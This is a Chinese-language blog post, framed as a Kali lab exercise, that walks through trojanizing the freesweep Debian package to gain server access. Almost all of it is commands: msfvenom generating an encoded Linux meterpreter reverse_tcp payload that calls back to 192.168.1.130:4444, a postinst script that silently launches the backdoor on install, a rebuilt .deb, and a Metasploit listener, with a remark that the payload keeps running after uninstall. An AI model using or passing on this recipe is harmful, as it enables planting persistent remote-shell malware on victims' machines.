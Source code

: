 ```yaml
---
title: "制作恶意deb软件包获取服务器权限"
date: 2020-02-23T20:41:02+08:00
author: 姚先生
categories: ['Kali']
tags: ['安全渗透']
---
```




Metasploit制作恶意deb软件包获取服务器权限



<!--more-->



## 实验步骤



* 制作恶意软件包使用--download-only 方式下载freesweep软件包不进行安装 

  ~~~
  apt --download-only install freesweep
  ~~~

* 查询下载下来的freesweep软件包并移动到指定目录

  ~~~
   cd /var/cache/apt/archives
   ls | grep freesweep
   mv /var/cache/apt/archives/freesweep_1.0.1-1_amd64.deb /
  ~~~

* 解压freesweep软件包到free目录 

  ~~~
cd /
dpkg -x freesweep_1.0.1-1_amd64.deb free
  ~~~

* 生成恶意代码到软件包源文件中

  ~~~
  msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp -b "\x00" -i 10  -e x86/shikata_ga_nai  LHOST=192.168.1.130 LPORT=4444 | msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp -b "\x00" -i 10  -e x86/xor_dynamic | msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp -b "\x00" -i 10  -e x86/call4_dword_xor -f elf -o /free/usr/share/freesweep_source
  ~~~

* 创建软件包信息目录 

  ~~~
  mkdir /free/DEBIAN
  ~~~

  ![](http://junmoxiao.org.cn/20200223212844.png)

* 创建软件包信息文件

~~~
tee /free/control << 'EOF'
Package: freesweep 
Version: 0v1
Section: Games and Amusement 
Priority: optional 
Architecture: amd64 
Maintainer: Ubuntu MOTU Developers 
Description: freesweep_source
EOF
~~~

* 创建deb软件包安装后脚本文件，加载后门 

~~~
tee /free/postinst << 'EOF'
sudo chmod 755 /usr/share/freesweep_source
sudo /usr/share/freesweep_source &  
EOF 
# &是将命令放到后台运行
~~~

* 给脚本文件添加执行权限

~~~
chmod 755 /free/postinst
~~~

* 构建新的deb安装包

  ~~~
  dpkg-deb --build /free/
  # 会在当前目录下生成构建的软件包free.deb,我们当前的目录是/ 
  ~~~

* 启动msf开启监听

~~~
use exploit/multi/handler
set payload linux/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.130
run
background
~~~

* 目标机安装安装包

  ~~~
  dpkg -i free.deb 
  ~~~

  

* 目标机删除安装包和卸载软件包 # 恶意软件包被卸载，payload 依旧正常运行

  ~~~
  rm -rf  free.deb
  dpkg -r free
  ~~~

  